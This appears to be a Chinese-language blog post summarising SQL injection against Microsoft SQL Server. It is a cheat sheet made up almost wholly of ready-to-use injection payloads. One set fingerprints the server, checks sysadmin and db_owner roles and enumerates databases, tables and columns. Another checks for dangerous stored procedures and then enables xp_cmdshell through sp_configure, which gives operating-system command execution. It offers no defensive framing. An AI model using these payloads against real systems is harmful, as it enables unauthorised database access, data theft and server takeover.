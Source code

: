 ```yaml
---
layout: post
title:  "SQLserver注入总结"
date:   2018-11-22 20:15:33 +0700
categories: [Web安全, SQL注入]
---
```


## 1、信息收集

| 测试目的                                                 | 测试语句                                                     |
| -------------------------------------------------------- | ------------------------------------------------------------ |
| 判断是否是SQLserver                                      | and exists (select * from sysobjects)                        |
| 判断是不是sysadmin、public角色成员                       | and 1=(select IS_SRVROLEMEMBER('sysadmin'))                  |
| 判断是否是db_owner角色成员                               | and 1=(select is_member('db_owner'))                         |
| 判断是不是可以读取其它库如master(**public角色成员即可**) | and 1=(select has_dbaccess('master'))                        |
| 判断mssql版本                                            | and 1=(select @@version)                                     |
| 判断本地服务器名                                         | and 1=(select @@servername)                                  |
| 判断是否支持多行                                         | ;declare @d int                                              |
| 判断是否支持注释符--                                     | -- dsf                                                       |
| 判断是否支持注释符/**/                                   | /`*`hjkbhjg`*`/                                              |
| 判断是否支持子语句查询                                   | and (select count(1) from [sysobjects])>=0                   |
| 判断数据库名1                                            | and (select db_name())>0                                     |
| 判断数据库名2                                            | and (select top 1 name from master.dbo.sysdatabases where name not in (select top N name from master.dbo.sysdatabases order by dbid))>1)) |
| 判断表名                                                 | and (select top 1 name from sysobjects  where xtype='u' and  name not in  (select top N name from sysobjects where xtype='u'))>1 |
| 判断列名                                                 | and 1=0 union select * from (表名) having 1=1                |

## 2、存储提权

| 测试目的                                                     | 测试语句                                                     |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| 检测xp_cmdshell                                              | and 1=(select count(*) from master.dbo.sysobjects where name='xp_cmdshell') |
| 检测XP_REGREAD                                               | and 1=(select count(*) from master.dbo.sysobjects where name='xp_regread') |
| 检测SP_MAKEWEBTASK（备份功能，**2005中取消了**）             | and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'sp_makewebtask') |
| 检测SP_ADDEXTENDEDPROC（可拓展存储过程）                     | and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'sp_addextendedproc') |
| 检测XP_SUBDIRS（读子目录）                                   | and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'xp_subdirs') |
| 检测XP_DIRTREE（读子目录）                                   | and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'xp_dirtree') |
| 开启show advanced options（显示或修改高级选项）              | ;EXEC sp_configure 'show advanced options', 1;RECONFIGURE WITH OVERRIDE; |
| 开启XP_CMDSHELL（2005和2008默认关闭）（高级选项）            | ;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE WITH OVERRIDE; |
